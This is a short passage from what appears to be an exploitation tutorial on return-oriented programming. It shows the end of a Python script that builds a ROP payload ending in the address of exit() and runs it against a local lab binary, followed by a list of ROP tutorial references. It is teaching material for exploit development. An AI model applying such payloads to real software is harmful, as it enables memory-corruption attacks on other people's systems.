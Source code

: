 ```python
payload += struct.pack("I", 0xdeaddead)
payload += struct.pack("I", 0xc0dec0de)

# Address of exit()
payload += struct.pack("I", exit)

# Execute the full payload
os.system("./rop1b '" + payload + "'")
```

Once the payload is constructed, we can execute it:

```
python payload.py
```

![ROP chains executed successfully](<../../../.gitbook/assets/image (965).png>)

## References

{% embed url="https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html" %}

{% embed url="https://www.ret2rop.com/2018/08/return-to-libc.html" %}

{% embed url="https://medium.com/@codingkarma/rop-the-easy-way-7a3b28070bbf" %}

{% embed url="https://www.fuzzysecurity.com/tutorials/expDev/7.html" %}

{% embed url="https://bordplate.no/blog/en/post/interactive-rop-tutorial/" %}

{% embed url="https://ctf101.org/binary-exploitation/return-oriented-programming/" %}

{% embed url="https://tc.gts3.org/cs6265/2019/tut/tut06-01-rop.html" %}
